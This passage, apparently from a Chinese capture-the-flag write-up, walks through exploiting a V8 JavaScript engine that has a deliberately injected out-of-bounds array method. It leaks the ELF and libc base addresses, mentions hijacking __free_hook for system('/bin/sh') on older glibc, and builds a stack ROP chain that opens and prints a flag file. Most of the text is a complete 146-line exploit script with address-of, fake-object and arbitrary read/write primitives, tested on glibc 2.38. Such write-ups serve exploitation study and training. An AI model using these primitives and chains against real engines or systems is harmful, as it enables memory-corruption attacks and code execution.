需要注意的是，不同的map可能有不同的地址偏移，需要选择合适的map。
1 2 3 4 5 var typemap = double_to_int64 (fake_bigint64arr_container[0 ]) - 1n ;var constructor = read_at (typemap + 0x20n ) - 1n ;var code = read_at (constructor + 0x30n ) - 1n ;var elf_code_addr = read_at (code + 0x42n );var elf_base = elf_code_addr - 0x10274E0n ;
获取了ELF基地址之后，下面需要从ELF中提取libc地址，注意到这个地方：
1 2 3 4 5 pwndbg> tele 0x56218bf4b518 00:0000│ 0x56218bf4b518 (__cxa_terminate_handler) —▸ 0x7f89e51aa41a (abort) ◂— push rbp 01:0008│ 0x56218bf4b520 (__cxa_unexpected_handler) —▸ 0x56218bd7c550 (std::terminate()) ◂— push rbx 02:0010│ 0x56218bf4b528 (v8::base::ieee754::atan2(double, double)::tiny) ◂— 0x1a56e1fc2f8f359 03:0018│ 0x56218bf4b530 (v8::base::ieee754::atan2(double, double)::pi_lo) ◂— 0x3ca1a62633145c07
这里的abort函数是libc内函数，因此可以通过这个函数得到libc的基地址：
1 2 var abort_addr = read_at (elf_base + 0x12B4518n );var libc_base = abort_addr - 0x2641an ;
下面的操作就简单了，劫持控制流一把梭。在2.31及以下版本可以通过修改__free_hook为system函数，然后在函数中创建局部变量即可。因为JS执行过程中对于生命周期结束的变量，会定期进行清除，因此创建地址在堆的局部变量，并写入字符串/bin/sh，即可完成利用。不过对于高版本来说，在没有__free_hook的情况下，可以尝试直接修改栈的返回地址。在gdb调试时通过bt命令可以查看堆栈情况，可以查询到的最初调用的函数是Builtins_JSEntry，通过修改这里为一个无效值然后继续执行的方法进行验证可知，当JS代码执行结束后，将会返回到这个函数。因此我们可以通过调试直接获取到返回地址所在的位置，结合在libc中能够找到的栈地址environ，可以计算出一个偏移量，然后直接写ROP链即可。
下面的利用代码在GNU C Library (Debian GLIBC 2.38-13) stable release version 2.38版本下测试通过：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 var open_addr = libc_base + 0xfe0d0n ;var read_addr = libc_base + 0xfea10n ;var puts_addr = libc_base + 0x77640n ;var environ = libc_base + 0x3532b0n ;var stack_addr = read_at (environ);var rop_start = stack_addr - 0xbd0n ;console .log ("ROP chain starts at: 0x" + rop_start.toString (16 ));var poprdi_ret = libc_base + 0x28215n ;var poprsi_ret = libc_base + 0x29b29n ;var poprdx_ret = libc_base + 0x1085adn ;write_at (stack_addr, 0x67616c66n ); write_at (rop_start, poprdi_ret);write_at (rop_start + 8n , stack_addr);write_at (rop_start + 0x10n , poprsi_ret);write_at (rop_start + 0x18n , 0n );write_at (rop_start + 0x20n , open_addr);write_at (rop_start + 0x28n , poprdi_ret);write_at (rop_start + 0x30n , 3n );write_at (rop_start + 0x38n , poprsi_ret);write_at (rop_start + 0x40n , stack_addr);write_at (rop_start + 0x48n , poprdx_ret);write_at (rop_start + 0x50n , 0x40n );write_at (rop_start + 0x58n , read_addr);write_at (rop_start + 0x60n , poprdi_ret);write_at (rop_start + 0x68n , stack_addr);write_at (rop_start + 0x70n , puts_addr);console .log ("Script is about to end" );
经过调试发现，console.log最终会调用write函数输出，且加或不加--allow-natives-syntax选项会对栈地址偏移产生影响，因此为了方便在不添加该选项时也能进行调试，可以在最后加上一条console.log，然后将断点下在write，即可获取脚本执行结束前一刻的程序状态，以验证自己获取到的偏移量是否正确。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 var overlapping_buf = new ArrayBuffer (0x20 );var for_double_value = new Float64Array (overlapping_buf);var for_bigint_value = new BigUint64Array (overlapping_buf);function double_to_int64 (double_value ) { for_double_value[0 ] = double_value; return for_bigint_value[0 ]; } function int64_to_double (int64_value ) { for_bigint_value[0 ] = int64_value; return for_double_value[0 ]; } var first_object = {"1" : 2 };var second_object = [1 , 2 , 3 ];var obj_arr = [first_object, second_object];var float_arr = [0.1 , 0.2 , 0.3 ];var float_typemap = float_arr.oob ();var obj_typemap = obj_arr.oob ();function get_object_address (object ) { obj_arr[0 ] = object; obj_arr.oob (float_typemap); let obj_addr = double_to_int64 (obj_arr[0 ]) - 1n ; obj_arr.oob (obj_typemap); return obj_addr; } function treat_address_as_object (addr ) { float_arr[0 ] = int64_to_double (addr + 1n ); float_arr.oob (obj_typemap); let fake_obj = float_arr[0 ]; float_arr.oob (float_typemap); return fake_obj; } var first_object_addr = get_object_address (first_object);var fake_object_container = [float_typemap, 0 , 0 , int64_to_double (0x10n * 0x100000000n )];var container_addr = get_object_address (fake_object_container);var fake_object = treat_address_as_object (container_addr + 0x30n );function set_addr_to_rw (addr ) { fake_object_container[2 ] = int64_to_double (addr - 0x10n + 1n ); } function get_rw_addr (idx ) { return double_to_int64 (fake_object_container[2 ]) - 1n + 0x10n + BigInt (idx) * 8n ; } function read_addr (addr ) { set_addr_to_rw (addr); return double_to_int64 (fake_object[0 ]); } function write_addr (addr, value ) { set_addr_to_rw (addr); fake_object[0 ] = int64_to_double (value); } var fake_bigint64arr_container = [0.1 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 , 0 ];for (let off = 0 ; off < 13 ; off++) { let v = read_addr (get_object_address (for_bigint_value) + BigInt (off) * 8n ); fake_bigint64arr_container[off] = int64_to_double (v); } fake_bigint64arr_container[2 ] = int64_to_double (get_object_address (fake_bigint64arr_container) - 0x20n + 1n ); heap_addr = double_to_int64 (fake_bigint64arr_container[12 ]); fake_bigintarr = treat_address_as_object (get_object_address (fake_bigint64arr_container) - 0x68n ); function read_at (addr ) { fake_bigint64arr_container[12 ] = int64_to_double (addr); return fake_bigintarr[0 ]; } function write_at (addr, value ) { fake_bigint64arr_container[12 ] = int64_to_double (addr); fake_bigintarr[0 ] = value; } var typemap = double_to_int64 (fake_bigint64arr_container[0 ]) - 1n ;var constructor = read_at (typemap + 0x20n ) - 1n ;var code = read_at (constructor + 0x30n ) - 1n ;var elf_code_addr = read_at (code + 0x42n );var elf_base = elf_code_addr - 0x10274E0n ;var abort_addr = read_at (elf_base + 0x12B4518n );var libc_base = abort_addr - 0x2641an ;console .log ("libc base: 0x" + libc_base.toString (16 ));var system_addr = libc_base + 0x4dab0n ;var open_addr = libc_base + 0xfe0d0n ;var read_addr = libc_base + 0xfea10n ;var puts_addr = libc_base + 0x77640n ;var environ = libc_base + 0x3532b0n ;var stack_addr = read_at (environ);var rop_start = stack_addr - 0xbd0n ;console .log ("ROP chain starts at: 0x" + rop_start.toString (16 ));var poprdi_ret = libc_base + 0x28215n ;var poprsi_ret = libc_base + 0x29b29n ;var poprdx_ret = libc_base + 0x1085adn ;write_at (stack_addr, 0x67616c66n ); write_at (rop_start, poprdi_ret);write_at (rop_start + 8n , stack_addr);write_at (rop_start + 0x10n , poprsi_ret);write_at (rop_start + 0x18n , 0n );write_at (rop_start + 0x20n , open_addr);write_at (rop_start + 0x28n , poprdi_ret);write_at (rop_start + 0x30n , 3n );write_at (rop_start + 0x38n , poprsi_ret);write_at (rop_start + 0x40n , stack_addr);write_at (rop_start + 0x48n , poprdx_ret);write_at (rop_start + 0x50n , 0x40n );write_at (rop_start + 0x58n , read_addr);write_at (rop_start + 0x60n , poprdi_ret);write_at (rop_start + 0x68n , stack_addr);write_at (rop_start + 0x70n , puts_addr);console .log ("Script is about to end" );
效果：
